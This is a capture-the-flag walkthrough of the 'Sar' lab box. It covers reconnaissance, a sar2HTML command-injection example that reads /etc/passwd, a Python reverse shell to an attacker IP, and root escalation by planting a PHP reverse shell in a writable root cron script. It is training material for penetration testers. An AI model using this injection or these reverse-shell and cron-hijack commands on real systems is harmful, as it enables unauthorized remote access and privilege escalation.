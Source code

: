 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag can be found here** (/home/love/Desktop/user.txt)

- - -

### step 5 (final): Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh

```
php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```
  * IP address = attacker machine (mine)
  * Setup listener **nc -lvp 4444**
  * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```
- echo requires a \ in front of a $ and " (probably more)




